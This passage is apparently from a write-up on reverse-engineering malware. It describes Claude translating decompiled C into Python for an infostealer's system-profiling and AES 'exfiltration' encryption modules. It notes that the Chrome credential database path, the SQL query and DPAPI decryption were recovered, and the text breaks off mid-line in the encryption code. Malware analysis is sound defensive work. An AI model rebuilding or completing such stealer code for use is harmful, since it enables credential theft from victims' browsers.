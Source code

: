 ```python

        return {
            'hostname': socket.gethostname(),
            'username': os.getenv('USERNAME'),
            'os_version': platform.platform(),
            'architecture': platform.machine()
        }
```

**What REVENG Provided:**
- ✅ Function structure and logic flow
- ✅ File paths (Chrome database location)
- ✅ SQL query structure
- ✅ DPAPI usage identification
- ✅ Error handling approach
- ✅ System info collection details

**What Claude Translated:**
- C syntax → Python syntax
- `sprintf()` → Python f-strings/Path
- `sqlite3_open()` → Python `sqlite3` library
- Windows DPAPI calls → `win32crypt` library
- Error handling → Python try/except

---

### Module 2: AES Encryption

**From:** `enhanced/encrypt_data.c`

**Claude's Python Translation:**

```python
# crypto_module.py
"""
AES encryption module for data exfiltration
Translated from: encrypt_data.c (enhanced)
"""

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
import hashlib

class MalwareEncryption:
    """AES-256-CBC encryption for exfiltration

    Original function: encrypt_data() at 0x402000
    """

    def __init__(self):
        """Initialize encryption with hardcoded parameters

        Values extracted from static analysis:
        - Seed at offset 0x5040
        - IV at offset 0x5060
        """
        # Hardcoded seed (found by REVENG at offset 0x5040)
        seed = b"MalwareKey2024SecretSeed"

        # Derive AES key from seed using SHA256
        # Original function: derive_key_from_seed() at 0x402100
        self.key = hashlib.sha256(seed).digest()  # 32 bytes for AES-256

        # Fixed IV (found by REVENG at offset 0x5060)
        self.iv = bytes([0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
```